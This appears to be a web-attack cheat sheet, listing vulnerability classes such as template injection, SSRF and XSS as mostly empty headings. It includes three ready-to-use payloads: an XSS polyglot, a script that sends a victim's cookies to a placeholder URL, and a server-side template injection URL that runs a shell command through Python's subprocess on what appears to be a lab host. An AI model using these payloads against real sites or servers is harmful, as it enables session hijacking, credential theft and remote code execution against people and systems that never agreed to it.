 ## Reflected Values
## Client Side Template Injection
## Command Injection
## CRLF
## Dangling Markup
## File Inclusion/Path Traversal
## Open Redirect
## Prototype Pollution to XSS
## Server Side Inclusion/Edge Side Inclusion
## Server Side Request Forgery
## Server Side Template Injection
## Reverse Tab Nabbing
## XSLT Server Side Injection
## XSS
#XSSPolyglot
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

### Cookie stealing
```
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
```

XSSI
XS-Search


https://ptl-0463415c-4546080d.libcurl.so/foo?{{%27%27.__class__.mro()[2].__subclasses__()[233]([%22/usr/local/bin/score%22,%225e904e89-5eb4-44b1-9313-22ca70392a07%22],shell=True,stdout=-1).communicate()[0]}}